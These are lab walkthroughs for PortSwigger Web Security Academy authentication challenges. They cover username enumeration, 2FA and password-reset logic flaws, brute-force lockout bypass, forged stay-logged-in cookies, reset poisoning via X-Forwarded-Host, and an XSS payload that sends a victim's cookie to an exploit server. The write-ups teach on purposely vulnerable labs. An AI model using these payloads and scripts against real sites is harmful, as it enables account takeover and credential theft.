01 Username enumeration via different responses
===============================================

This lab is vulnerable to username enumeration and password brute-force attacks.
It has an account with a predictable username and password, which can be found
in the following wordlists:

-   Candidate usernames

-   Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password,
then access their account page.

References:

-   https://portswigger.net/web-security/authentication/password-based



I send the POST request from the login to Intruder and set the attack type to
“Pitchfork” (this was a mistake, to test all usernames and passwords it should
be “Cluster bomb”, but it is faster using “Sniper” or “Pitchfork”):



Then paste the usernames in the set 1 and passwords in set 2:



From the response size we can detect a different response using username
“apollo”:



With a normal attack setting the username to “apollo” and testing the 100
passwords we get the credentials apollo:batman:



2FA simple bypass
=================

This lab's two-factor authentication can be bypassed. You have already obtained
a valid username and password, but do not have access to the user's 2FA
verification code. To solve the lab, access Carlos's account page.

-   Your credentials: wiener:peter

-   Victim's credentials carlos:montoya

References:

-   https://portswigger.net/web-security/authentication/multi-factor



After authenticating we find there are 2 pages: “/” and “/my-account?id=wiener”:



After logging in as carlos we have to send the security code:



We can access / and then click “Home”:



03 Password reset broken logic
==============================

This lab's password reset functionality is vulnerable. To solve the lab, reset
Carlos's password then log in and access his "My account" page.

-   Your credentials: wiener:peter

-   Victim's username: carlos

References:

-   https://portswigger.net/web-security/authentication/other-mechanisms



There is a “Forgot password” link in the login page:



We receive a message with a link to restore the password:



There we submit the new password:



It generates the POST request:



So we can change the username parameter to “carlos” and access the page with the
new password:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /forgot-password?temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T HTTP/2
...

temp-forgot-password-token=eeiyUnDFWhZqlaBJz707cipGPxh7bN4T&username=carlos&new-password-1=password&new-password-2=password
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

04 Username enumeration via subtly different responses
======================================================

This lab is subtly vulnerable to username enumeration and password brute-force
attacks. It has an account with a predictable username and password, which can
be found in the following wordlists:

-   Candidate usernames

-   Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password,
then access their account page.

References:

-   https://portswigger.net/web-security/authentication/password-based



First a Intruder Sniper attack to enumerate the users:



For some usernames there is an HTML comment, and then the size of the response
is higher than 3100, while for other users there is not this comment in line 14:







Adding a new column we find one of the responses does not contain the ending
“.”:



We get the password when we see a redirection, so credentials are
akamai:monitoring:



05 Username enumeration via response timing
===========================================

This lab is vulnerable to username enumeration using its response times. To
solve the lab, enumerate a valid username, brute-force this user's password,
then access their account page.

Your credentials: wiener:peter

-   Candidate usernames

-   Candidate passwords

Hint: To add to the challenge, the lab also implements a form of IP-based
brute-force protection. However, this can be easily bypassed by manipulating
HTTP request headers.

References:

-   https://portswigger.net/web-security/authentication/password-based

I will set a Pitchfork attack adding the “X-Forwarded-For” header:



I will add numbers to the IP address from that header:



There is a button “Columns” at the top:



We can see which requests took longer. For this, it is important to set a very
long password:



There is a redirection so credentials are accounts:jessica:



06 - Broken brute-force protection, IP block
============================================

This lab is vulnerable due to a logic flaw in its password brute-force
protection. To solve the lab, brute-force the victim's password, then log in and
access their account page.

Your credentials: wiener:peter Victim's username: carlos

Hint: Advanced users may want to solve this lab by using a macro or the Turbo
Intruder extension. However, it is possible to solve the lab without using these
advanced features.

References:

-   https://portswigger.net/web-security/authentication/password-based

-   https://portswigger.net/web-security/authentication/auth-lab-passwords



Generated link:
https://0a9f008704cb076382ef4c7e0060006d.web-security-academy.net/

Trying a bruteforce you get a message the IP is blocked:



Attempt 8 returns incorrect password:



To send the correct credentials wiener:peter after every login attempt I created
a list with the password after every of the 100 passwords to test:



And a list with both usernames:



I wil use the Pitchfork attack type, described here, which will take the values
of each list one by one:



Send the payload:



Now the attack is executed, but not successfully:



It ends up blocked after 15 passwords, so I will add the correct login after
more passwords than just one.

I created a short Python script to generate the user list:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
all_passw = open("100pass.txt").read().splitlines()

counter = 0
num = 5

print("wiener")
#print("peter")
for i in all_passw:
        counter += 1
        print("carlos")
        #print(i)
        if counter % num == 0:
                print("wiener")
                #print("peter")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And the password list:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
all_passw = open("100pass.txt").read().splitlines()

counter = 0
num = 5

#print("wiener")
print("peter")
for i in all_passw:
        counter += 1
        #print("carlos")
        print(i)
        if counter % num == 0:
                #print("wiener")
                print("peter")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



But this did not work either.

Finally I added 1000 milliseconds between request in Resource Pool:



And now it works. We find the password for carlos is “moon”:



07 Username enumeration via account lock
========================================

This lab is vulnerable to username enumeration. It uses account locking, but
this contains a logic flaw. To solve the lab, enumerate a valid username,
brute-force this user's password, then access their account page.

-   Candidate usernames

-   Candidate passwords

References:

-   https://portswigger.net/web-security/authentication/password-based



Intercept the login POST request and send it to Intruder:



The user “pi” was locked:



Then we will set the username and test all passwords:



One request does not return the message of invalid password or too many
requests, it seems it is blank. This is the correct password:



08 2FA broken logic
===================

This lab's two-factor authentication is vulnerable due to its flawed logic. To
solve the lab, access Carlos's account page.

Your credentials: wiener:peter Victim's username: carlos You also have access to
the email server to receive your 2FA verification code.

Hint: Carlos will not attempt to log in to the website himself.

References:

-   https://portswigger.net/web-security/authentication/multi-factor



We must use a security code sent to our email:



After the first login there is a redirection which creates the cookie with value
“verify=wiener”:



We can change it to “verify=carlos”:



When we get to "/login2" the “verify” cookie is for carlos and we do not receive
a MFA code:



We can send this to Intruder:



And we can bruteforce it with a payload like this one:



The code “1985” generates a different response:



And we log in as carlos:



09 Brute-forcing a stay-logged-in cookie
========================================

This lab allows users to stay logged in even after they close their browser
session. The cookie used to provide this functionality is vulnerable to
brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account"
page.

-   Your credentials: wiener:peter

-   Victim's username: carlos

-   Candidate passwords

References:

-   https://portswigger.net/web-security/authentication/other-mechanisms



There is an option to stay logged in:



It generates a cookie “stay-logged-in”:



The content of the cookie is the Base64 encode value of
“wiener:51dc30ddc473d43a6011e9ebba6ca770”, and
“51dc30ddc473d43a6011e9ebba6ca770” is the MD5 hash of “peter”. So the formula
for the cookie is BASE64(user:MD5(password)):



With just this cookie it is possible to connect to /my-account:



I will create the possible values with this script:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
import hashlib, base64

pwds = open("pass.txt").read().splitlines()

for i in pwds:
        result = hashlib.md5(i.encode())
        #print(result.hexdigest())
        message = "carlos:"+result.hexdigest()
        #print(message)
        message_bytes = message.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')
        print(base64_message)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Y2FybG9zOmUxMGFkYzM5NDliYTU5YWJiZTU2ZTA1N2YyMGY4ODNl
Y2FybG9zOjVmNGRjYzNiNWFhNzY1ZDYxZDgzMjdkZWI4ODJjZjk5
Y2FybG9zOjI1ZDU1YWQyODNhYTQwMGFmNDY0Yzc2ZDcxM2MwN2Fk
Y2FybG9zOmQ4NTc4ZWRmODQ1OGNlMDZmYmM1YmI3NmE1OGM1Y2E0
Y2FybG9zOjI1ZjllNzk0MzIzYjQ1Mzg4NWY1MTgxZjFiNjI0ZDBi
Y2FybG9zOjgyN2NjYjBlZWE4YTcwNmM0YzM0YTE2ODkxZjg0ZTdi
Y2FybG9zOjgxZGM5YmRiNTJkMDRkYzIwMDM2ZGJkODMxM2VkMDU1
Y2FybG9zOjk2ZTc5MjE4OTY1ZWI3MmM5MmE1NDlkZDVhMzMwMTEy
Y2FybG9zOmZjZWE5MjBmNzQxMmI1ZGE3YmUwY2Y0MmI4YzkzNzU5
Y2FybG9zOjg2MjFmZmRiYzU2OTg4MjkzOTdkOTc3NjdhYzEzZGIz
Y2FybG9zOjQyOTdmNDRiMTM5NTUyMzUyNDViMjQ5NzM5OWQ3YTkz
Y2FybG9zOjI3NmY4ZGIwYjg2ZWRhYTdmYzgwNTUxNmM4NTJjODg5
Y2FybG9zOmU5OWExOGM0MjhjYjM4ZDVmMjYwODUzNjc4OTIyZTAz
Y2FybG9zOjM3YjRlMmQ4MjkwMGQ1ZTk0YjhkYTUyNGZiZWIzM2Mw
Y2FybG9zOmQwNzYzZWRhYTlkOWJkMmE5NTE2MjgwZTkwNDRkODg1
Y2FybG9zOjBkMTA3ZDA5ZjViYmU0MGNhZGUzZGU1YzcxZTllOWI3
Y2FybG9zOjNiZjExMTRhOTg2YmE4N2VkMjhmYzFiNTg4NGZjMmY4
Y2FybG9zOmVExOTE3OTc2MjRkZDNhNDhmYTY4MWQzMDYxMjEy
Y2FybG9zOmYzNzllYWYzYzgzMWIwNGRlMTUzNDY5ZDFiZWMzNDVl
Y2FybG9zOjZlZWE5YjdlZjE5MTc5YTA2OTU0ZWRkMGY2YzA1Y2Vi
Y2FybG9zOmM4ODM3YjIzZmY4YWFhOGEyZGRlOTE1NDczY2UwOTkx
Y2FybG9zOmJlZTc4M2VlMjk3NDU5NTQ4NzM1N2UxOTVlZjM4Y2Ey
Y2FybG9zOmU4MDdmMWZjZjgyZDEzMmY5YmIwMThjYTY3MzhhMTlm
Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
Y2FybG9zOmMzMzM2NzcwMTUxMWI0ZjYwMjBlYzYxZGVkMzUyMDU5
Y2FybG9zOjg0ZDk2MTU2OGE2NTA3M2EzYmNmMGViMjE2YjJhNTc2
Y2FybG9zOjFjNjMxMjlhZTlkYjljNjBjM2U4YWE5NGQzZTAwNDk1
Y2FybG9zOmRjMGZhN2RmM2QwNzkwNGEwOTI4OGJkMmQyYmI1ZjQw
Y2FybG9zOjkzMjc5ZTMzMDhiZGJiZWVkOTQ2ZmM5NjUwMTdmNjdh
Y2FybG9zOjY3MGIxNDcyOGFkOTkwMmFlY2JhMzJlMjJmYTRmNmJk
Y2FybG9zOjc2NDE5YzU4NzMwZDlmMzVkZTdhYzUzOGMyZmQ2NzM3
Y2FybG9zOjQ2Zjk0YzhkZTE0ZmIzNjY4MDg1MDc2OGZmMWI3ZjJh
Y2FybG9zOmIzNmQzMzE0NTFhNjFlYjJkNzY4NjBlMDBjMzQ3Mzk2
Y2FybG9zOjVmY2ZkNDFlNTQ3YTEyMjE1YjE3M2ZmNDdmZGQzNzM5
Y2FybG9zOmQxNmQzNzdhZjc2Yzk5ZDI3MDkzYWJjMjIyNDRiMzQy
Y2FybG9zOjE2NjBmZTVjODFjNGNlNjRhMjYxMTQ5NGM0MzllMWJh
Y2FybG9zOjAyYzc1ZmIyMmM3NWIyM2RjOTYzYzdlYjkxYTA2MmNj
Y2FybG9zOmExNTJlODQxNzgzOTE0MTQ2ZTRiY2Q0ZjM5MTAwNjg2
Y2FybG9zOjZiMWIzNmNiYjA0YjQxNDkwYmZjMGFiMmJmYTI2Zjg2
Y2FybG9zOmQ5YjIzZWJiZjliNDMxZDAwOWEyMGRmNTJlNTE1ZGI1
Y2FybG9zOmRhNDQzYTBhZDk3OWQ1NTMwZGYzOGNhMWE3NGU0Zjgw
Y2FybG9zOmVmNGNkZDMxMTc3OTNiOWZkNTkzZDc0ODg0MDk2MjZk
Y2FybG9zOmVjMGUyNjAzMTcyYzczYThiNjQ0YmI5NDU2YzFmZjZl
Y2FybG9zOmQ5MTRlM2VjZjZjYzQ4MTExNGEzZjUzNGE1ZmFmOTBi
Y2FybG9zOmY3OGYyNDc3ZTk0OWJlZTJkMTJhMmM1NDBmYjYwODRm
Y2FybG9zOjA1NzE3NDllMmFjMzMwYTc0NTU4MDljNmIwZTdhZjkw
Y2FybG9zOmYyNWEyZmM3MjY5MGI3ODBiMmExNGUxNDBlZjZhOWUw
Y2FybG9zOjA4ZjkwYzFhNDE3MTU1MzYxYTVjNGI4ZDI5N2UwZDc4
Y2FybG9zOmJmNzc5ZTA5MzNhODgyODA4NTg1ZDE5NDU1Y2Q3OTM3
Y2FybG9zOjY4NGM4NTFhZjU5OTY1YjY4MDA4NmI3YjQ4OTZmZjk4
Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx
Y2FybG9zOmRmMDM0OWNlMTEwYjY5ZjAzYjRkZWY4MDEyYWU0OTcw
Y2FybG9zOmFkOTI2OTQ5MjM2MTJkYTA2MDBkN2JlNDk4Y2MyZTA4
Y2FybG9zOmFhNDdmODIxNWM2ZjMwYTBkY2RiMmEzNmE5ZjQxNjhl
Y2FybG9zOjViYWRjYWY3ODlkM2QxZDA5Nzk0ZDhmMDIxZjQwZjBl
Y2FybG9zOmVlODlmN2E3YTA1NjViYTU2ZjhmYjU3OTRjMGJkOWZl
Y2FybG9zOmQwOTcwNzE0NzU3NzgzZTZjZjE3YjI2ZmI4ZTIyOThm
Y2FybG9zOjliMzA2YWIwNGVmNWUyNWY5ZmI4OWM5OThhNmFlZGFi
Y2FybG9zOmRmNTNjYTI2ODI0MGNhNzY2NzBjODU2NmVlNTQ1Njhh
Y2FybG9zOjIzNDVmMTBiYjk0OGM1NjY1ZWY5MWY2NzczYjNlNDU1
Y2FybG9zOmFhZTAzOWQ2YWEyMzljZmMxMjEzNTdhODI1MjEwZmEz
Y2FybG9zOmIzZjk1MmQ1ZDlhZGVhNmY2M2JlZTlkNGM2ZmNlZWFh
Y2FybG9zOmI1OWM2N2JmMTk2YTQ3NTgxOTFlNDJmNzY2NzBjZWJh
Y2FybG9zOmI0MjdlYmQzOWM4NDVlYjU0MTdiN2Y3YWFmMWY5NzI0
Y2FybG9zOjViMWI2OGE5YWJmNGQyY2QxNTVjODFhOTIyNWZkMTU4
Y2FybG9zOjFiYmQ4ODY0NjA4MjcwMTVlNWQ2MDVlZDQ0MjUyMjUx
Y2FybG9zOmUwNDc1NTM4N2U1YjU5NjhlYzIxM2U0MWY3MGMxZDQ2
Y2FybG9zOmQ1YWExNzI5YzhjMjUzZTVkOTE3YTUyNjQ4NTVlYWI4
Y2FybG9zOmY2M2Y0ZmJjOWY4Yzg1ZDQwOWYyZjU5ZjJiOWUxMmQ1
Y2FybG9zOjFhMWRjOTFjOTA3MzI1YzY5MjcxZGRmMGM5NDRiYzcy
Y2FybG9zOjFkM2QzNzY2N2E4ZDdlYjAyMDU0YzZhZmRmOWUyZTFj
Y2FybG9zOjU1ODM0MTM0NDMxNjRiNTY1MDBkZWY5YTUzM2M3Yzcw
Y2FybG9zOjBiNGU3YTBlNWZlODRhZDM1ZmI1Zjk1YjljZWVhYzc5
Y2FybG9zOjZmNGVjNTE0ZWVlODRjYzU4YzhlNjEwYTBjODdkN2Ey
Y2FybG9zOjhhZmE4NDdmNTBhNzE2ZTY0OTMyZDk5NWM4ZTc0MzVh
Y2FybG9zOmQxMTMzMjc1ZWUyMTE4YmU2M2E1NzdhZjc1OWZjMDUy
Y2FybG9zOmZlYTBmMWY2ZmVkZTkwYmQwYTkyNWI0MTk0ZGVhYzEx
Y2FybG9zOjYyMDk4MDQ5NTIyMjVhYjNkMTQzNDgzMDdiNWE0YTI3
Y2FybG9zOjZiMTYyOGIwMTZkZmY0NmU2ZmEzNTY4NGJlNmFjYzk2
Y2FybG9zOmI1YzBiMTg3ZmUzMDlhZjBmNGQzNTk4MmZkOTYxZDdl
Y2FybG9zOmFkZmY0NGM1MTAyZmNhMjc5ZmNlNzU1OWFiZjY2ZmVl
Y2FybG9zOmZjNjNmODdjMDhkNTA1MjY0Y2FiYTM3NTE0Y2QwY2Zk
Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl
Y2FybG9zOjVlZjY0YmFkOGY5ZDdlMGM4NWY4MjE1ODBlNGQ2NjI5
Y2FybG9zOmU2YTViYTA4NDJhNTMxMTYzNDI1ZDY2ODM5NTY5YTY4
Y2FybG9zOjlkZjNiMDFjNjBkZjIwZDEzODQzODQxZmYwZDQ0ODJj
Y2FybG9zOjFkMTBjYTdmOGZlMjYxNWJmNzJhMjQ5YTdkMzRkNmI5
Y2FybG9zOjZlYmU3NmM5ZmI0MTFiZTk3YjNQ0OGI3OTFhN2M5
Y2FybG9zOjA5ZjgzMTZlMjk2NDlhN2Y3OTVmNDE0YmEzODYwZmMw
Y2FybG9zOjIyOTk3OWZjZTUxNzRjMTdkNDY0NWJmODc1MmRhZTFl
Y2FybG9zOjVjNzY4NmMwMjg0ZTA4NzViMjZkZTk5YzEwMDhlOTk4
Y2FybG9zOjdkOGJjNWYxYThkMzc4N2QwNmVmMTFjOTdkNDY1NWRm
Y2FybG9zOjIxYjcyYzBiN2FkYzVjN2I0YTUwZmZjYjkwZDkyZGQ2
Y2FybG9zOmIzZThjZGQ5ZmY0NDI1OWZkNjdlODc5ZTU3OGNkOGY0
Y2FybG9zOmJkMWQ3YjA4MDllNGI0ZWU5Y2EzMDdhYTUzMDhlYTZm
Y2FybG9zOjA4YjU0MTFmODQ4YTI1ODFhNDE2NzJhNzU5Yzg3Mzgw
Y2FybG9zOjg5OTQ4YzdmNDg5MGFmNWZmMTg1MjRiNGZjM2YzNjEx
Y2FybG9zOjY1NzlhOTJlN2Y1YWM3YzU3MDU1MTk2YjNhZmUzZGRk
Y2FybG9zOjZkNGRiNWZmMGMxMTc4NjRhMDI4MjdiYWQzYzM2MWI5
Y2FybG9zOjYzYjA0YTM3MTg0OTY5NGVmMzg2NDY4N2FkY2I0MTBh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get a different response with
“Y2FybG9zOmIzZThjZGQ5ZmY0NDI1OWZkNjdlODc5ZTU3OGNkOGY0”, which is the payload for
the password “mobilemail”:





10 Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an
XSS vulnerability in the comment functionality. To solve the lab, obtain
Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as
carlos and delete his account from the "My account" page.

\- Your credentials: wiener:peter

\- Victim's username: carlos

Learning path: If you're following our suggested learning path, please note that
this lab requires some understanding of topics that we haven't covered yet.
Don't worry if you get stuck; try coming back later once you've developed your
knowledge further.

\---------------------------------------------

References:

\- https://portswigger.net/web-security/authentication/other-mechanisms

\---------------------------------------------

First I will create a comment with this payload to send the cookie to the
exploit server:

\`\`\`

\<script\>var i=new
Image;i.src="https://exploit-0a500006035b831a8133a1940130000d.exploit-server.net/log?cookie="+document.cookie;\</script\>

\`\`\`

We get the value from carlos' cookie:

Then I logged in as wiener and got the “stay-logged-in” cookie
“d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw”:

It uses the same password structure as the previous lab,
BASE64(user:MD5(password)):

It seems it is the MD5 hash for “onceuponatime”:

So we can now connect and delete the account:

11 Password reset poisoning via middleware
==========================================

This lab is vulnerable to password reset poisoning. The user carlos will
carelessly click on any links in emails that he receives. To solve the lab, log
in to Carlos's account. You can log in to your own account using the following
credentials: wiener:peter. Any emails sent to this account can be read via the
email client on the exploit server.

References:

-   https://portswigger.net/web-security/authentication/other-mechanisms



A POST request is generated when trying to change the password:



The link generated is
“https://0a12001204e7e3e982ef202200a10043.web-security-academy.net/forgot-password?temp-forgot-password-token=JiMwnEiWPtqhfR5EAaUObelEM6CE11uK”:



It is possible to poison the URL of the email using the header
“X-Forwarded-Host”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /forgot-password HTTP/2
...
X-Forwarded-Host: exploit-0a870063038466fd80799d71012c004f.exploit-server.net

username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



With this, there is a request to the exploit server:



We can use this to change carlos' password:





12 Password brute-force via password change
===========================================

This lab's password change functionality makes it vulnerable to brute-force
attacks. To solve the lab, use the list of candidate passwords to brute-force
Carlos's account and access his "My account" page.

-   Your credentials: wiener:peter

-   Victim's username: carlos

-   Candidate passwords

References:

-   https://portswigger.net/web-security/authentication/other-mechanisms



There is a function to update the password:



It generates a POST request with the username and current password as
parameters:



When the current password is correct but the new passwords are different the
message is:



When the new passwords do not match and the current password is wrong the
message is:



We can change the username and send it to Intruder to test all the passwords:



From this we get that the password is “12345”:


